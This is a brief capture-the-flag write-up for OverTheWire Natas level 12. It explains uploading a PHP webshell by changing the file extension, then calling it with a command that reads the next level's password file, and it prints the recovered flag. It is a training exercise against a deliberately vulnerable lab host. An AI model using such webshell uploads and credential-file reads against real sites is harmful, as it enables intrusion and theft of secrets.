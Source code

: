 # Natas Level 12 Solution

here we inject webshell, by changing the EXT of the tmp file we upload, as you can see below

![alt text](./images/level12.png)

then, we go to `upload/yw04l1863l.php` which is the url
```
http://natas12.natas.labs.overthewire.org/upload/yw04l1863l.php
```

and inject our payload, in this case: `?x=cd /etc/natas_webpass/; cat natas13`

**Flag:** ***`trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`*** 